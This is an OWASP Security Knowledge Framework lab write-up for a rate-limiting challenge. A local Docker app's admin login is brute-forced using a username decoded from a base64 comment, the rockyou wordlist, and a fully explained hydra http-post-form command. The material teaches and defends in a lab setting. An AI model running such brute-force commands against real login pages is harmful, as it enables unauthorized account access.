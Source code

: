 # Brute force login

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-ratelimiting
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-ratelimiting
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![](../../.gitbook/assets/java/Ratelimiting/1.png)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![](../../.gitbook/assets/java/Ratelimiting/2.png)

```text
$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
$ Developer username: devteam
$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =\) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-40.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```text
hydra -l devteam -P ./rockyou-40.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![](../../.gitbook/assets/java/Ratelimiting/3.png)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}
